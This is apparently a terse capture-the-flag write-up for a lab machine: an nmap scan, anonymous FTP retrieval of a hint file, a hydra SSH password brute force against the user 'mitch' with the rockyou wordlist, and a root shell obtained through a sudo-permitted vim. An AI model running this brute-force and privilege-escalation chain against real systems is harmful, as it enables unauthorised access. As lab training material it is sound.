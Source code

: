 ```
nmap -sC -sV -oN nmap/initial $IP
```

FTP is open
```
ftp $IP
anonymous
cd pub
get ForMitch.txt
```

user name is mitch?
```
hydra -l mitch -P ~/Downloads/rockyou.txt ssh://$IP:2222
[2222][ssh] host: 10.10.4.183   login: mitch   password: secret
```

# Priv Esc
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
sudo vim -c ':!/bin/sh'
```
